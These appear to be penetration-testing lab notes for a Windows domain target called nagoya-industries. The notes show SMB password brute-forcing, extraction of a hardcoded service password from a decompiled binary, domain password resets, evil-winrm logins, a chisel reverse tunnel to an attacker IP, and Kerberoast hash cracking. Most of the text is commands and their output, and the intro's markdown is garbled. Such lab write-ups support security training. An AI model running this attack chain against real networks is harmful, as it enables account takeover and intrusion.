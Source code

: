   

## **Port 80**

**Che**ck **o**n **th**e **we**b **serv**er, **go**t **a** **li**st **o**f **te**am **nam**e, **us**e **th**e **na**me **t**o **cre**ate **a** **user**name **li**st **wi**th **anne.J**enkins **form**at. **Th**en **us**e **crackm**apexec **t**o **bru**te **for**ce **SM**B

  

  

```SQL
rpcclient -U nagoya-industries/svc_helpdesk 192.168.232.21

```

```SQL
 ~ ilspycmd ResetPassword.exe | grep Password
[assembly: AssemblyTitle("ResetPassword")]
[assembly: AssemblyProduct("ResetPassword")]
namespace ResetPassword;
        private static string service_Password = "U299iYRmikYTHDbPbxPoYYfa2j4x4cdg";
                        Console.WriteLine("Usage: PasswordReset.exe <Domain Username> <New Password>");
                PrincipalContext val = new PrincipalContext((ContextType)1, text2, service_username, service_Password);
                        ((AuthenticablePrincipal)val2).SetPassword(password);
                        Console.WriteLine("Password reset successful.");
                        
                        
 gstrings -e l ResetPassword.exe

Usage: PasswordReset.exe <Domain Username> <New Password>
nagoya-industries.com
User not found.
Password reset successful.
svc_helpdesk
U299iYRmikYTHDbPbxPoYYfa2j4x4cdg
VS_VERSION_INFO
VarFileInfo
Translation
StringFileInfo
000004b0
Comments
CompanyName
FileDescription
ResetPassword
FileVersion
1.0.0.0
InternalName
ResetPassword.exe
LegalCopyright
Copyright 
  2023
LegalTrademarks
OriginalFilename
ResetPassword.exe
ProductName
ResetPassword
ProductVersion
1.0.0.0
Assembly Version
1.0.0.0
                        
                        
U299iYRmikYTHDbPbxPoYYfa2j4x4cdg
```

```SQL
setuserinfo christopher.lewis 23 'Admin!23'
```

```SQL
evil-winrm  -u christopher.lewis -p 'Admin!23' -i 192.168.232.21
```

> [!important]

```SQL
upload chisel_1.10.0_windows_amd64
```

```SQL
mv chisel_1.10.0_windows_amd64 c:/temp
```

```SQL
cmd.exe /c "C:\Temp\chisel_1.10.0_windows_amd64 client 192.168.45.250:445 R:1433:127.0.0.1:1433"
```

```SQL
mssqlclient.py  svc_mssql:'Service1'@127.0.0.1 -windows-auth
```

```SQL
crackmapexec smb 192.168.232.21 -u ./1.txt -p ./rockyou_utf8.txt | grep -v STATUS_LOGON_FAILURE
```

```SQL
crackmapexec smb 192.168.232.21 -u 1.txt -p rockyou_utf8.txt   | grep -v STATUS_LOGON_FAILURE   
```

john --wordlist=/users/share/wordlists/rockyou.txt kerberoast.txt  
Using default input encoding: UTF-8  
Loaded 2 password hashes with 2 different salts (krb5tgs, Kerberos 5 TGS etype 23 [MD4 HMAC-MD5 RC4])  
Press 'q' or Ctrl-C to abort, almost any other key for status  
Service1 (?)  
1g 0:00:00:35 DONE (2024-09-09 21:20) 0.02783g/s 399213p/s 428194c/s 428194C/s 1..*7¡Vamos!  
Use the "--show" option to display all of the cracked passwords reliably  
Session completed  
➜ ~ john --show kerberoast.txt

?:Service1